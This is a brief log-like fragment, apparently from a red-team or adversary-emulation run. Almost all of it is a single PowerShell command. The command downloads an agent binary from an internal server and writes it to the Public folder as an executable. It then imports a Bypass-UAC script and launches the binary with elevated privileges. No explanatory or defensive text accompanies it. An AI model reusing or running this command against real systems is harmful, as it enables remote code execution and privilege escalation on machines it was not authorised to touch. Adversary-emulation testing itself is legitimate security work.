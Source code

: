   Start: 2024-09-13T17:45:39Z

  Command: 
```powershell
$url="http://172.31.10.226:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); $name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"",""); [io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);$job = Start-Job -ScriptBlock { Import-Module -Name .\Bypass-UAC.ps1; Bypass-UAC -Command "C:\Users\Public\$name.exe -group red"; };Receive-Job -Job $job -Wait;
```

